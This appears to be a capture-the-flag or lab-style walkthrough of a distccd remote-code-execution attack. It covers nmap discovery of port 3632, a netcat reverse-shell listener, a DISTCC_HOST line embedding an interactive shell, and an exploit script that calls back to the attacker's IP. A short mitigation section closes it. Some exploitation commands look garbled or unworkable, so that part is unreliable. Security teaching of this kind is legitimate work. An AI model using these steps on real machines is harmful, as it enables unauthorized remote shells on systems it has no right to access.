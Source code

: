 Full Walkthrough: distccd RCE
Theory & Background
distccd is a program for distributed compilation of C/C++ code across several machines. A critical misconfiguration is running the daemon without any authentication (--allow 0.0.0.0), allowing anyone to connect and submit compilation jobs. An attacker can abuse this to execute arbitrary commands on the system.

Step-by-Step Walkthrough
1. Identification
bash
nmap -p3632 -sV <target_ip>
Expected Result: Nmap will show the port as open and identify the service as distccd.

2. Exploitation
The exploitation involves tricking distccd into compiling and executing a malicious command.

bash
# 1. Use a dedicated exploit script (the most reliable method)
# Search for 'distccd' exploit in metasploit or searchsploit

# 2. Manual method using netcat
# On your machine, set up a listener for a reverse shell: nc -nlvp 4444

# Connect to distccd and instruct it to run a command that connects back to you.
echo -e 'hello\n' | nc -nv <target_ip> 3632
# This might not work on all versions. Using a known exploit is better.

# 3. Using the known technique with distcc
# This assumes you have distcc installed on your attacking machine.
DISTCC_HOST='<target_ip> bash -c "exec /bin/sh -i <&2 1>&2" 2<>/dev/null' distcc whatever_command
# A more common and reliable way is with this python command:
distccd_rce.py <target_ip> 3632 <your_ip> 4444
What to do: If successful, you will receive a reverse shell connection on your listener. Run id to confirm your user (often daemon or distcc).

3. Mitigation
Access Control: Never use --allow 0.0.0.0/0. Restrict the daemon to only trusted compiler worker IPs using the --allow option (e.g., --allow 192.168.1.0/24).

Firewall: Use a host-based firewall to block port 3632 from untrusted networks.

Service Removal: If distributed compilation is not needed, disable and remove the distccd service entirely.

